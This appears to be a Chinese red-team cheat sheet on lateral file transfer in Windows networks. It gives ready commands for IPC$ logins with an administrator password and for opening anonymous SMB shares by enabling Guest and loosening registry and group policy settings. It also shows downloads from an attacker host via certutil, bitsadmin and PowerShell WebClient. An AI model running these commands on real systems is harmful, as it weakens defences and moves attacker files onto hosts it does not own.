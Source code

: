 # 横向文件传输

#### IPC$网络共享

Windows系统默认开启的网络共享(net share查看)

```
- C$：C盘共享
- ADMIN$：系统目录共享
- IPC$："命名管道"资源共享，作用为了进程之间通信开放，通过任何对方用户名和口令，连接双方可建立安全的通道并以此通道进行加密数据的交换。
```

IPC$连接具备条件：

```
1. 远程主机开启了IPC$共享
2. 远程主机139和445端口开放
```

IPC$连接

```
net use \\192.168.0.105\IPC$ "P@ssW0rd!" /user:"Administrator"
net use
```

#### SMB服务器

关于SMB

```
又称CIFS，网络文件共享系统
应用层网络传输协议
一般使用NetBIOS协议(135端口)或者TCP(445端口)发送，主流为445
```

kali Linux起SMB(匿名共享)(impackt项目smbserve)：

```
mkdir /root/share
python3 smbserver.py lbwnb /root/share -smb2support
```

CMD命令行起SMB(管理员权限):

* 启用来宾账户Guest

```
net user guest /active:yes
```

* Everyone权限赋予于匿名用户

```
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
```

* 指定匿名共享文件的位置

```
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d smb /f
```

* 将Guest用户从策略]]“拒绝从网络访问这台计算机”中移除

```
导出组策略：secedit /export /cfg gp.inf /quiet
修改文件gp.inf，将SeDenyNetworkLogonRight = Guest修改为SeDenyNetworkLogonRight =,
重新导入组策略：secedit /configure /db gp.sdb /cfg gp.inf /quiet
强制刷新组策略，立即生效(否则，重启后生效)：gpupdate/force
```

* 设置文件共享

```
icacls C:\share\ /T /grant Everyone:r
net share share=c:\share /grant:everyone,full
```

ps1开SMB:

https://github.com/3gstudent/Invoke-BuildAnonymousSMBServer

````
```
[[允许运行ps1脚本]]
Set-ExecutionPolicy unrestricted

[[开启可匿名访问的文件共享服务器]]
Invoke-BuildAnonymousSMBServer -Path c:\share -Mode Enable

[[关闭可匿名访问的文件共享服务器：]]
Invoke-BuildAnonymousSMBServer -Path c:\share -Mode Disable
````

#### Windows本地工具利用

Certutil：

* Windows自带命令行工具
* 用于管理Windows证书并作为证书服务的一部分安装
* 提供从网络下载文件的功能

```
CertUtil -urlcache -split -f http://192.168.0.108:8000/lbwnb.txt C:\123.txt
```

BITSAdmin:

* Windows自带命令行工具
* 用于创建下载和上次作业，监视进度
* Windows7及之后的版本才开始自带

```
bitsadmin /transfer test http://192.168.0.108:8000/lbwnb.txt C:\123.txt
```

PowerShell WebClient:

* 远程加载执行思路
* 创建WebClient对象实现文件下载

```
(New-Object Net.WebClient).downloadfile('http://192.168.0.108:8000/lbwnb.txt','C:\Users\123.txt')
```
